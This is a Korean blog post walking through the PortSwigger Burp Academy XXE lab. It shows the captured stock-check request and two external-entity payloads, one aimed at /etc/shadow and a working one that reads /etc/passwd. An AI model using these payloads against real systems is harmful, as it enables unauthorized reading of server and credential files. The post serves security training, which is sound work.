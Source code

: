 ```yaml
---
layout: post
title: "Burp Academy 문제풀이 - Exploiting XXE using external entities to retrieve files"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XXE]
toc: true
---
```


# 개요
- 문제명: Exploiting XXE using external entities to retrieve files
- XXE (XML external entity) 공격에 대한 실습 문제이다. 
- XXE의 기본적인 패턴 중 하나의 시스템 파일 읽기를 실습할 수 있다. 
- 주소: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files
- 난이도: Apprentice (Easy)
- XXE에 대한 기본적인 내용은 [여기](https://portswigger.net/web-security/xxe){:target="_blank"} 에서 확인가능하다. 


# 랩설명
- Check stock 기능은 XML 입력을 파싱한 결과를 (에러를 포함해서) 돌려준다고 한다. 
- XML external entiry 를 삽입해서 /etc/passwd 파일의 내용을 읽으면 성공이다.   

```
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file.
```

# 풀이 
## 취약점이 있는 곳 찾기
상품 상세 페이지에서 `Check stock` 버튼이 있는 것을 찾았다. 

![Check stock기능](/images/burp-academy-xxe-1-1.png)

버튼을 클릭하면 다음 요청이 전송된다. 

```
POST /product/stock HTTP/1.1
Host: 0a52000f032ecba6c08c8b1900120054.web-security-academy.net
Cookie: session=1uOtwtnBX2Udo4b3VfYEXUpYiZuR7xja
Content-Length: 107
Sec-Ch-Ua: "Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0a52000f032ecba6c08c8b1900120054.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a52000f032ecba6c08c8b1900120054.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7onnection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```

HTTP 응답은 다음과 같다. 
```
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 2

94
```

POST 요청의 XML 바디 부분에 XXE 공격 페이로드를 넣으면 될 것 같다. 

## 1차 시도 
[XXE 페이로드](https://github.com/payloadbox/xxe-injection-payload-list){:target="_blank"}
를 참고해서 
`<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>` 를 추가해서 보내봤다. 

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY foo SYSTEM "file:///etc/shadow"> ]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

200 응답이 되돌아왔다. 뭔가 잘못된 것 같다. 

## 2차 시도 
아, 페이로드에 `&foo;` 로 출력해주는 부분이 없었다. 다음 페이로드로 시도해보자 /etc/passwd의 내용을 확인할 수 있었따. 

``` 
<!DOCTYPE test [<!ENTITY foo SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&foo;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Burp Suite Repeater로 확인한 모습 
![Check stock기능](/images/burp-academy-xxe-1-3.png)

성공! 
![Check stock기능](/images/burp-academy-xxe-1-2.png)